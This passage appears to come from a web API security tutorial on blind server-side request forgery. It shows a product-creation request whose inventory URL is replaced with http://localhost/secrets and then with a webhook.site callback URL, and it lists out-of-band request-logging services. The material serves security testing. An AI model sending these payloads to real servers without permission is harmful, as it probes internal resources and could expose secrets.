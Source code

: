 **Intercepted Request:**

`_POST api/v1/store/products_`

`_headers…_`

`_{_`

`_"inventory":"http://store.com/api/v3/inventory/item/12345"_`

 }

**Attack**:

`_POST api/v1/store/products_`

`_headers…_`

`_{_`

`_"inventory:"_**_§_****_http://localhost/secrets_****_§"_**`

} 

**Response:**

HTTP/1.1 200 OK  
headers...  
{}

In this case, the response is returned and we do not have any indication that the server is vulnerable. Instead of [http://localhost/secrets](http://localhost/secrets), we will need to provide the URL to a web server that will let us see if a request is actually made. Burp Suite Pro has a great tool called Burp Suite Collaborator. Collaborator can be leveraged to set up a web server that will provide us with the details of any requests that are made to our random URL. To stick with free tools, we will leverage [http://webhook.site](http://webhook.site/). You can also use one of these other free sites: 

- [http://pingb.in/](http://pingb.in/) 
- [https://requestbin.com/](https://requestbin.com/) 
- [https://canarytokens.org/](https://canarytokens.org/) 

![](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/site/2147573912/products/UHz28Z8BT8i3ZOFGS1xg_ssrf2.PNG)

By navigating to webhook.site a random URL will be created. You can then use that randomized URL as a payload and track it to see if any requests are made to it. So, our Blind SSRF attack would look more like this.

**Attack**:

`_POST api/v1/store/products_`

`_headers…_`

`_{_`

`_"inventory":"_**_§[https://webhook.site/306b30f8-2c9e-4e5d-934d-48426d03f5c0](https://webhook.site/306b30f8-2c9e-4e5d-934d-48426d03f5c0)_****_§"_**`

 }
